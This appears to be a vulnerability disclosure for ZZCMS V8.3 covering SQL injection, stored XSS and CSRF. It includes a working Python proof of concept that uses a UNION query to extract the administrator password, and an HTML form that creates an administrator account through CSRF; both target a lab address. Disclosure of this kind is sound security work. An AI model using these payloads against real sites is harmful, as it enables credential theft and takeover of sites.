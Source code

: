 # ZZCMS V8.3

##1. SQL Injection
 
####dl/dl_sendmail.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/1.png)
According to the code, the SQL statement is submitted as a post, and there is no filtering in the middle, so there is SQL injection here.

####POC：
'''
import requests

url = "http://10.10.10.39:8080/dl/dl_sendmail.php"
cookies = {'UserName':'admin','PassWord':'21232f297a57a5a743894a0e4a801fc3'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = requests.post(url,data,cookies=cookies)
q.encoding = 'utf-8'
print q.text
'''
You can see that you have successfully obtained the administrator password.
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/2.png)


##2. Stored XSS

####/user/manage.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/3.png)
Keep going
####/zt/show.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/4.png)
Stripfxg function is to restore the materialization. As you can see, there is a storage XSS vulnerability.

####Enter XSS
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/5.png)
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/6.png)


##3. CSRF
After the administrator logged in, open the following  page
poc：
'''
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.10.39:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
'''
